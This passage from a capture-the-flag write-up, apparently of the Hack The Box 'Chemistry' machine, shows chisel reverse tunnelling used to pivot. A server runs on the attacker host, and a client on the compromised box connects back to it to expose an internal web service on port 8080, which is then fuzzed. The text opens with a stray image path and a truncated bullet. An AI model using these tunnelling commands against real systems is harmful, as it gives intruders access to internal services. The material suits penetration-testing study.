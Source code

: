 
- I’ll connect from the chemistry box, tunneling port 8001 on
- I use `-p 8000` to listen on 8000 (the default port of 8080 is already in use by Burp), and give it `--reverse` to allow incoming connections to open listeners on my host that tunnel back through them.

```bash
[🔴][Oct 20, 2024 - 18:02:35 (CEST)] exegol-htb chemistry # chisel   server -p 8000 --reverse
2024/10/20 18:04:08 server: Reverse tunnelling enabled
2024/10/20 18:04:08 server: Fingerprint etiZL+Qj2dflGx8xX/U+z6vvE6Q3aiq2SWQi2PAws1g=
2024/10/20 18:04:08 server: Listening on http://0.0.0.0:8000
2024/10/20 18:07:13 server: session#1: tun: proxy#R:8001=>8080: Listening

```

- I’ll connect from chemistry box, tunneling port 8001 on my host through the tunnel to 8000 on chemistry:

```bash
rosa@chemistry:~$ ./chisel client 10.10.14.176:8000 R:8001:127.0.0.1:8080 &
[2] 2105
rosa@chemistry:~$ 2024/10/20 19:33:09 client: Connecting to ws://10.10.14.176:8000
2024/10/20 19:33:09 client: Connected (Latency 37.877078ms)
```

Site
- Visiting the website on [`http://127.0.0.1:8001`](http://127.0.0.1:8001) shows another website

![internal_service](/assets/blog/htb-chemistry/internal_service.png)

- Fuzzing through the web directories we observe that the assets directory is present but forbidden
- From here using burp we actually notice the server is a pyhton3,9 aiohttp/3.9.1
